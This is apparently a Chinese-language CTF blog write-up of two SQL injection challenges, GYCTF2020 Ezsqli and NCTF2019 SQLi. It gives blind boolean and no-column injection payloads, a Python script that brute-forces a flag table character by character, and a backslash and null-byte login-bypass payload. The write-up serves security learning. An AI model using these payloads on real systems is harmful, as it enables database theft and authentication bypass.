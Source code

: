 ### [GYCTF2020]Ezsqli

之前buu留了一堆sql没做，现在补的真折磨

直接是id，所以没有单引号，可以用`if` `^`或者直接上语句嘛。。

```sql
if(0,1,2) # 0 = false,所以是2
0^1
(ascii(substr(database(),1,1))>32)
```

然后`information_schema`被过滤了，就是常规的注表名和无列名注入了（直接猜列名为flag也可以

[ctf无列名注入小结](https://k1te.cn/2021/05/19/no-column-sql-injection/)

但是这题只能利用比较

```sql
(select * from f1ag_1s_h3r3_hhhhh)>(select 1,'A')
```

实在是不想写sql了，抄个脚本吧

```python
import requests
import time

url = "http://7afc95b2-c918-499c-a5d3-9637042a4bc2.node4.buuoj.cn:81/index.php"
payload1 = "if(ascii(substr((select(flag)from(f1ag_1s_h3r3_hhhhh)),"
payload2 = ",1))="
payload3 = ",1,2)"
name = ""
dic = "qwertyuioplkjhgfdsazxcvbnmQAZWSXEDCRFVTGBYHNUJMIKOLP1234567890-{}"
for i in range(1,50):
    for j in dic:
        payload = payload1+str(i)+payload2+str(ord(j))+payload3
        data = {'id':payload}
        time.sleep(0.05)
        s = requests.post(url,data=data).text
        if ("Nu1L" in s):
            name += j
            print(name)
            break
```

### [NCTF2019]SQLi

又是sql🤮

很经典的注入**payload**

```sql
username=\&passwd=||/**/1;%00
```

偷个脚本注密码登陆就行
